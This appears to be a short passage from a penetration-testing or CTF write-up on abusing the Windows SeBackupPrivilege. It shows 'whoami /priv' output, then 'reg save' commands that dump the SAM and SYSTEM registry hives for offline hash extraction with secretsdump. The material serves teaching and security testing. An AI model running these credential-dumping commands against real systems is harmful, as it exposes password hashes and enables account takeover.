 The SeBackupPrivilege allows us to traverse any folder and list the folder contents.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

It is possible to back up the `SAM` and `SYSTEM` files

```bash
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Transfer to Linux and use `secretsdump`



